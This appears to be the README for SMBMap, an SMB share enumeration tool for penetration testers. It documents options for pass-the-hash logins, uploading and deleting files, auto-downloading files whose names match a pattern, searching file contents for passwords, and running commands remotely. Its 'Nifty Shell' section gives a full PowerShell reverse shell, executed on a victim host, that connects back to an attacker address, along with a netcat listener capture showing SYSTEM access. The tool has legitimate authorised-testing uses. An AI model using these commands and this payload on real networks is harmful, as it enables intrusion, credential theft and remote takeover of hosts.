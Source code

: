 # SMBMap

SMBMap allows users to enumerate samba share drives across an entire domain. List share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands. This tool was designed with pen testing in mind, and is intended to simplify searching for potentially sensitive data across large networks.

DOWNLOAD HERE: https://smbmap.googlecode.com/git/smbmap.py

Some of the features have not been thoroughly tested, so changes will be forth coming as bugs are found. I only really find and fix the bugs while I'm on engagements, so progress is a bit slow. Any feedback or bug reports would be appreciated. It's definitely rough around the edges, but I'm just trying to pack in features at the moment. Version 2.0 should clean up the code a lot….whenever that actually happens ;). Thanks for checking it out!! Planned features include --update (so you don't have to visit this page), actual logging, shadow copying ntds.dit automation (Win7 and up only..for now), other things….

You'll need Impacket to use this tool:

https://code.google.com/p/impacket/

## Features:
- Pass-the-hash Support
- File upload/download/delete
- Permission enumeration (writable share, meet Metasploit)
- Remote Command Execution
- Distrubted file content searching (new!)
- File name matching (with an auto downoad capability)

```
SMBMap - Samba Share Enumerator
Shawn Evans - Shawn.Evans@gmail.com

$ python smbmap.py -u jsmith -p password1 -d workgroup -h 192.168.0.1
$ python smbmap.py -u jsmith -p 'aad3b435b51404eeaad3b435b51404ee:da76f2c4c96028b7a6111aef4a50a94d' -h 172.16.0.20
$ cat smb_ip_list.txt | python smbmap.py -u jsmith -p password1 -d workgroup
$ python smbmap.py -u 'apadmin' -p 'asdf1234!' -d ACME -h 10.1.3.30 -x 'net group "Domain Admins" /domain'

-P      port (default 445), ex 139
-h      IP of host
-u      Username, if omitted null session assumed
-p      Password or NTLM hash
-s      Share to use for smbexec command output (default C$), ex 'C$'
-x      Execute a command, ex. 'ipconfig /r'
-d      Domain name (default WORKGROUP)
-R      Recursively list dirs, and files (no share\path lists ALL shares), ex. 'C$\Finance'
-A      Define a file name pattern (regex) that auto downloads a file on a match (requires -R or -r), not case sensitive, ex "(web|global).(asax|config)"
-r      List contents of directory, default is to list root of all shares, ex. -r 'c$\Documents and Settings\Administrator\Documents'
-F      File content search, -F '[Pp]assword' (requies admin access to execute commands, and powershell on victim host)
--search-path   Specify drive/path to search (used with -F, default C:\Users), ex 'D:\HR\'
-D      Download path, ex. 'C$\temp\passwords.txt'
-L      List all drives on a host
--upload-src    File upload source, ex '/temp/payload.exe'  (note that this requires --upload-dst for a destiation share)
--upload-dst    Upload destination on remote host, ex 'C$\temp\payload.exe'
--del       Delete a remote file, ex. 'C$\temp\msf.exe'
--skip      Skip delete file confirmation prompt
-q      Disable verbose output (basically only really useful with -A)
```

## Sample Output:
```
$ cat smb-hosts.txt | python smbmap.py -u jsmith -p 'R33nisP!nckl3' -d ABC
[+] Reading from stdin
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.0.5:445 Name: unkown                                            
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE
        IPC$                                                    NO ACCESS
        TMPSHARE                                                READ, WRITE
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
        Disk                                                    Permissions
        ----                                                    -----------
        IPC$                                                    NO ACCESS
        print$                                                  READ, WRITE
        My Dirs                                                 NO ACCESS
        WWWROOT_OLD                                             NO ACCESS
        ADMIN$                                                  READ, WRITE
        C$                                                      READ, WRITE

$ python smbmap.py -u ariley -p 'P@$$w0rd1234!' -d ABC -x 'net group "Domain Admins" /domain' -h 192.168.2.50
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
abcadmin                  
The command completed successfully.
```

## Nifty Shell:
Run Powershell Script on Victim SMB host (change the IP in the code to your IP addres, i.e where the shell connects back to)
```
$ python smbmap.py -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' 
[+] Finding open SMB ports....
[+] User SMB session establishd...
[+] IP: 192.168.2.50:445        Name: unkown                                            
[!] Error encountered, sharing violation, unable to retrieve output
```

## Attackers Netcat Listener

```
$ nc -l 4445
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
 nt authority\system
```
